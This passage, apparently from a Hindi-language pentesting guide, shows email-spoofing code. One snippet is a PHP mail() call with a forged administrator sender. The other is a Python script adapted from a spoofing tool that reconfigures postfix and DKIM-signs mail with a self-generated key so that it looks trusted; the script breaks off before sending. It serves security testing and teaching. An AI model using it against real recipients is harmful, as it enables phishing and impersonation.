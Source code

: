 **या आप इसे मैन्युअल तरीके से कर सकते हैं:**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># यह एक अप्रमाणित संदेश भेजेगा
</strong><strong>mail("your_email@gmail.com", "परीक्षण विषय!", "हेलो! यह एक परीक्षण है", "From: administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
```